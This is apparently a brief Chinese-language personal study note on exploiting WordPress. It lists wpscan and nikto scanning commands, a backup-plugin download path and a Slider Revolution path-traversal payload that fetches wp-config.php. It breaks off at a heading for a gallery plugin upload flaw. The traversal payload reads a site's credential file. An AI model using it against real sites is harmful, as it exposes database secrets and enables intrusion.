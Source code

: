 ```yaml
---
title: WordPress
date: 2019-11-08 19:09:36
categories:
- CypherSecurity
- 2016
tags:
- CypherSecurity
- 2016
---
```


# WordPress漏洞利用  

## 学习链接

> - WordPress插件注入漏洞 [EXPLOIT-DATABASE](https://www.exploit-db.com/exploits/36613/)  
> - [FREEBUF](http://www.freebuf.com/articles/web/65894.html)

## WPScan的利用

> - 命令  wpscan -url URL



## nikto的利用

> - 命令  nikto  -h   URL  
> - 可以通过一些cookies查看是否为WordPress站点，用于验证是否为WordPress站点


## Backup组件下载漏洞

> - 路径: wp-content/wpbackitup_backups/


## Slider Revolution Plugin 任意文件下载漏洞

> - 路径: wp-admin/admin-ajax.php?action=revslider_show_image&img=文件名  
> - 例如: wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php
> - 可以下载当前目录下的任意文件(路径首先正确),特别地，当拿到wp-config文件后就bam!bam!bam!

## Complete Gallery Manager 3.3.3任意文件上传漏洞

